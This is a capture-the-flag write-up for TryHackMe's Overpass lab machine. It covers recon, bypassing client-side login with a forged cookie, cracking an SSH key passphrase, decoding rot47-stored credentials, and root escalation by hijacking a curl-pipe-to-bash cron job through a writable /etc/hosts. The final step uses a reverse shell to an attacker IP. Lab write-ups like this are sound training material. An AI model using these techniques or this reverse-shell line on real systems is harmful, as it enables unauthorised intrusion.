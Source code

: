 ```yaml
---
title: Overpass 1
category: [infosec, write-ups]
tags: [overpass, tryhackme]
---
```


First in a series of three machines on [TryHackMe](https://tryhackme.com/).

> What happens when a group of broke Computer Science students try to make a
> password manager?
Obviously a perfect commercial success! 

## Goal 

Hack the machine and get the flags in `user.txt` and `root.txt`

## Initial recon 

Presented with a machine that appears to be running a web server, describing a
piece of password management software.

Running nmap 
```bash 
nmap -sV -sV -oN
```

Reveals that this system is currently running an SSH and an HTTP server.

```
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0) 
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
```
Looking at the website further, I see that the software is available for
download as a number of pre-compiled binaries, as a well as a link to the
source code, aswell as a build script. Looks like the software is written in
Go.

Inspecting the source for the homepage, we also find this comment. 

```html
<p>
Overpass allows you to securely store different passwords for every service,
protected using military grade 
<!--Yeah right, just because the Romans used it doesn't make it military grade, change this?--> 
cryptography to keep you safe.
</p> 
```

This comment suggests that we are probably looking at a Caesar cipher.

Taking a peek at the code confirms this, as we see that it encrypts passwords
using a rot47 function.
We also see this interesting line in the automated build script.

```bash 
echo "$(date -R) Builds completed" >> /root/buildStatus 
```

The build script must be running as root. Maybe we can mess about with the date
binary?

Further investigating the website, we enumerate the following locations with
Gobuster

- /img
- /downloads
- /aboutus
- /admin
- /css

Checking the "/admin" route out, we're presented with an admin/password login.

## Weak client side authentication
Taking a look at login.js, we see this is very weakly secured with some clientside JS. 

```javascript
...
if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}
...
```

Setting the `SessionToken` value in our cookie to any value and refreshing the
page gets us access, and we're presented with an RSA Private key and a possible
user name of "James". We already know that the server is running SSH, so this
might be our way in, but we also are told that this key is secured with a
password, which we'll need to break.

## Cracking the private key

We convert the private key we were given into a suitable format using
"ssh2john.py", followed by throwing rockyou.txt at it with johntheripper. This
pretty quickly gives us the password `james13`.

Logging in via SSH with these credentials we get our first flag in user.txt.

We also get a todo.txt which mentions that james has recorded his password using the
overpass password manager. Sure enough, looking for a `.overpass` file reveals some
ciphertext. We could just use the overpass software, but we know its just rot47, so
we can just slap it into an online tool. This gives us another credential, which is
james' user password.

```
{"name":"System","pass":"saydrawnlyingpicture"}
```

## PrivEsc

Running linpeas.sh to check for PE vectors reveals a few things
- etc/hosts is writable by all users.
- We see there is a cron job running every minute as root, running a buildscript.sh file.

```
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

We see that the system is downloading the latest version of the build script
and piping it directly into bash. As we can write to the `etc/hosts` file, we can
simply change the location of overpass.thm and point it to our own malicious
code.

## Getting root

I used [updog](https://github.com/sc0tfree/updog) to spin up a local webserver on port 80,
and placed a reverse shell script at the location of the build script.

```bash
# buildscript.sh
sh -i >& /dev/tcp/10.18.10.136/9999 0>&1
```

After waiting a minute for the cron job to run. I had a root shell and the final flag.
